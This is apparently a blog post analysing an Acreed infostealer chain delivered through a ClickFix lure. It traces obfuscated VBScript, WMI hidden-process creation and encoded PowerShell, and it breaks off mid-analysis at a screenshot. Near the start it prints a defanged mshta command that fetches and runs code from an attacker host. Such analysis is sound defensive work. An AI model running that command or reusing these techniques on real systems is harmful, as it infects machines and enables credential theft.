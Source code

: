 ```yaml
---
layout: post
title:  "Acreed InfoStealer - Malware Analysis"
date:   2025-09-16 21:00:00 +1000
categories: malware analysis
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Here we will be analysisng an Acreed Infostealer execution chain from a Clickfix payload.

I thought LummaStealer was difficult. This one is ridicolous.

### What does Mshta pull? 

``mshta hXXps://gb[.]kaq51[.]ru/m54tdry4``

Okay, when safely pulled with my jank script we get about 2.5mbs of bits and bytes. 

![alt text](/images/mal_first.PNG)
- First can a command to move open mshta cmd window to (-99,0) on the screen, which is the bottom left. Likely to avoid suspicion?
- Next we can see an ``ELF`` file header and a Linux OS? Perhaps this is an embedded linux file. I can try to rebuild it cause we have the bytes!
- Last we have a script open up with some obfuscated VB code? What a throwback.

What's really interesting is the file opens ``script`` encapsulates the .elf file in it then closes ``script``. Really cool.

I tried to rebuild the .elf file in a Linux VM but cannot get it right, probably a character or a space off the right bits and bytes. I'll leave it. I reckon further down the line the code will call it and give the opportunity for us to dump it successfully.

![alt text](/images/vbs.PNG)

Looks like we have some hex strings here, I'm seeing this throughout the code, so I'll go through and convert every hex string I spot.

![alt text](/images/unobfuscted_first.PNG)

Now we can see a bit better, here what this function does.
1. Parses in the variable ``thkiaqvpzab``
2. Declares variables
3. Creates a WMI object
4. Connects to WMI service on machine
5. Gets the ProcessStartup class. This allows for process creation and management using WMI.
6. Sets the configuration of the WMI service to the variable ``nrhfhprneb`` with three flags. Configuration of WMI Object (``aihoizxpjk``), window size (``aihoizxpjk``) and an unknown variable of that passed in variable ``thkiaqvpzab``

Essentially the function uses WMI to spawn a hidden process. And, we are after what is passed to the function ``nrhfhprneb`` because that is likely a command/script.

![alt text](/images/second_part.PNG)

Now this pieces together the puzzle, this function creates the new process with the startup settings passed in from our previous function. 

![alt text](/images/next.PNG)

This stinks of our payload. Looks like Hex --> B64 --> Plaintext?

![alt text](/images/cyberchef_first.PNG)

Bingo. But that last part still looks like B64.

![alt text](/images/cyberchef_second.PNG)

Okay, so we have cleartext. Obfuscated of course. But we know how it's being encoded. We have 60 lines of this same pattern. We probably 70-80 different instances of the above I just ran through. So rather than manually do this, I might try to pass this into LordGPT to decode this for me!

So, LordGPT does not decoding payloads, fair enough.

All the hex strings start by calling the function ``eanjxdqwjegyor``, which is our decoder. So I should be able mimick this behaviour in my own script. Copy paste the decoder and the encoded strings. Badda bing badda boom.

![alt text](/images/decoded.PNG)

We have a powershell call and about 400 characters of more B64.

![alt text](/images/decoded_b64.PNG)

When I decode that B64 we can see a bit better, but still not great. All the data lives in the variable ``JzkRs``. 

I have no idea what those bits and bytes are. 

Zooming out I can see the value of all these encoded bits and bytes are passed to the variable ``rbeqwxctrp`` which is called later on in the script. So I will park this here for now. I reckon we will be able to dump it easier later.

![alt text](/images/error.PNG)

Looks some type of error handling script. I will say this now, this obfuscation is unique. However, the naming convention of the functions is identical to the last LummaStealer sample I manually analysed, so my money is on Lumma!

![alt text](/images/next_variable.PNG)

The function ``ozybymuzpian`` calls the function ``rbeqwxctrp`` which was used to store all the bits and bytes from the encoded hex --> b64 strings we observed above.

Then sets a value for the variable ``nfaupnpmtf`` to the output of the function ``pfikjr`` with a passed in parameter of ``poahoksthybhusnasu``. We have yet to have a look at the function ``pfikjr`` but will soon. This is getting good.

Now this is interesting. AutoOpen() is a macro used for Word/Excel. So perhaps, the malware opens an embedded word/excel document with a macro in it? AutoOpen() calls in ``ozybymuzpian``

![alt text](/images/third_function.PNG)

I'm not sure about this function. Really got no idea. May circle back.

![alt text](/images/fourth_function.PNG)

